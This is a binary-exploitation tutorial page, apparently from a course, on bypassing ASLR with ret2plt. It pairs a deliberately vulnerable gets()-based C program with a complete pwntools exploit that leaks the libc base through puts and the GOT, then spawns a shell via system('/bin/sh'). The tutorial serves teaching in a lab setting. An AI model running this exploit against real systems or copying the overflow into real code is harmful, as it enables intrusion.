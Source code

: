 # ret2plt ASLR bypass

## Overview

This time around, there's no leak. You'll have to use the ret2plt technique explained previously. Feel free to have a go before looking further on.

{% file src="../../../.gitbook/assets/ret2plt.zip" caption="ret2plt - 32-bit" %}

```c
#include <stdio.h>

void vuln() {
    puts("Come get me");

    char buffer[20];
    gets(buffer);
}

int main() {
    vuln();

    return 0;
}
```

## Analysis

We're going to have to leak ASLR base somehow, and the only logical way is a ret2plt. We're not struggling for space as `gets()` takes in as much data as we want.

## Exploitation

All the basic setup

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
```

Now we want to send a payload that leaks the real address of `puts`. As mentioned before, calling the PLT entry of a function is the same as calling the function itself; if we point the parameter to the GOT entry, it'll print out it's actual location. This is because in C string arguments for functions actually take a **pointer** to where the string can be found, so pointing it to the GOT entry \(which we know the location of\) will print it out.

```python
p.recvline()        # just receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

But why is there a `main` there? Well, if we set the return address to random jargon, we'll leak libc base but then it'll crash; if we call `main` again, however, we essentially restart the binary - except we now know `libc` base so this time around we can do a ret2libc.

```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

Remember that the GOT entry won't be the only thing printed - `puts`, and most functions in C, print **until a null byte**. This means it will keep on printing GOT addresses, but the only one we care about is the first one, so we grab the first 4 bytes and use `u32()` to interpret them as a little-endian number. After that we ignore the the rest of the values as well as the `Come get me` from calling `main` again.

From here, we simply calculate libc base again and perform a basic ret2libc:

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],            # exit is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

And bingo, we have a shell!

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 64-bit

You know the drill - try the same thing for 64-bit. If you want, you can use pwntools' ROP capabilities - or, to make sure you understand calling conventions, be daring and do **both** :P

{% file src="../../../.gitbook/assets/ret2plt-64.zip" caption="ret2plt - 64-bit" %}

